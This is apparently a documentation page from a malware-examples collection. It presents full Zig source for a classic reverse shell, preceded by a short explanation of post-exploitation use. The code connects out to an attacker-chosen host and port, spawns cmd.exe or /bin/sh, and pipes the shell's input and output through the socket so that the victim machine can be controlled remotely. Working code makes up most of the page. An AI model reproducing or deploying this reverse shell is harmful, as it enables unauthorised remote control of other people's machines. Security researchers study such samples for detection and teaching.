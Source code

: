 # Classic Reverse Shell

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Examples/Reverse-Shell/std_reverse_shell)

This example implements a classic reverse shell **using only Zig's standard
library**. It connects to a remote host and spawns a command interpreter whose
input and output are tunneled through the TCP socket. Once the connection is
established, the attacker can issue commands and receive their results as if
they were running directly on the victim machine. Reverse shells are frequently
used in post-exploitation to gain interactive access behind firewalls or NAT
devices.

## Code Walkthrough

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(std.heap.page_allocator);
    defer std.process.argsFree(std.heap.page_allocator, args);
    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();
    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Host seems down. Cannot connect to the host.\n", .{});
        return;
    };
    defer stream.close();

    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;
    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    while (true) {
        // Read command from socket
        const bytes_read = stream.read(&buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Wait for execution
        std.time.sleep(300 * std.time.ns_per_ms);

        // Read output once with reasonable timeout
        if (process.stdout.?.read(&buffer)) |output_len| {
            if (output_len > 0) {
                _ = stream.write(buffer[0..output_len]) catch break;
            }
        } else |_| {
            // If stdout fails, try stderr
            if (process.stderr.?.read(&buffer)) |error_len| {
                if (error_len > 0) {
                    _ = stream.write(buffer[0..error_len]) catch break;
                }
            } else |_| {}
        }
    }
}
```
